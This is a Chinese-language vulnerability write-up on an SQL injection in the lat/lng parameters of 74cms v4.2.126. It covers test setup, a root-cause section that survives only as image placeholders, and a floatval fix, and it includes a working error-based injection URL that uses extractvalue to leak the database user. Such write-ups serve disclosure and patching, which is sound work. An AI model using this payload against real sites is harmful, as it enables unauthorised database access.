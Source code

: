 # 74cms v4.2.126-通杀sql注入

## 0x00 前言

厂商：74cms

下载地址：http://www.74cms.com/download/index.html

关于版本：

新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。

注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)

2， 将下载好的包进行安装

3， 进入后台点击查看如果不是最新版的话，请点击升级！

4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决

5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php

6， 查找所有$_SERVER['HTTP_HOST'] 改为  http://baidu.com 即可

## 0x02 数据填充不然没得测试

![image](images/img74.png)

## 0x02.1注册商家账号方便测试

首先先注册一个商家用户然后发布一条消息，注册商家直接去后台注册最简单了

注册完成以后将此商家用户登录前台

![image](images/img75.png)

## 0x02.2注册普通账号方便测试

![image](images/img76.png)

## 0x03 sql漏洞演示

![image](images/img77.png)

![image](images/img78.png)

这样的话只要点击完以后有数据 你在 lat  lng  字段都可以正常的进行注入

Payload:

```html
http://74cms.test/index.php?m=&c=jobs&a=jobs_list&lat=23.176465&range=20&lng=113.35038 PI() / 180 - map_x  PI() / 180) / 2),2))) * 1000) AS map_range FROM qs_jobs_search j WHERE (extractvalue (1,concat(0x7e,(SELECT USER()), 0x7e))) -- a
```

![image](images/img79.png)

## 0x04 漏洞原理

![image](images/img80.png)

![image](images/img81.png)

![image](images/img82.png)

![image](images/img83.png)

![image](images/img84.png)

说明我们的猜想是没有错的。

![image](images/img85.png)

![image](images/img86.png)

所以最终我们符合条件的内容都会赋值为$this->params

![image](images/img87.png)

![image](images/img88.png)

![image](images/img89.png)

## 0x05 修复方法

![image](images/img90.png)

```php
$this->field = "id,ROUND(6378.138*2*ASIN(SQRT(POW(SIN((".floatval($this->params['lat'])."*PI()/180-map_y*PI()/180)/2),2)+COS(".floatval($this->params['lat'])."*PI()/180)*COS(map_y*PI()/180)*POW(SIN((".floatval($this->params['lng'])."*PI()/180-map_x*PI()/180)/2),2)))*1000) AS map_range";
```

强转为浮点型，防止注入

## 四、参考链接

https://www.yuque.com/pmiaowu/bfgkkh/iwgmb2
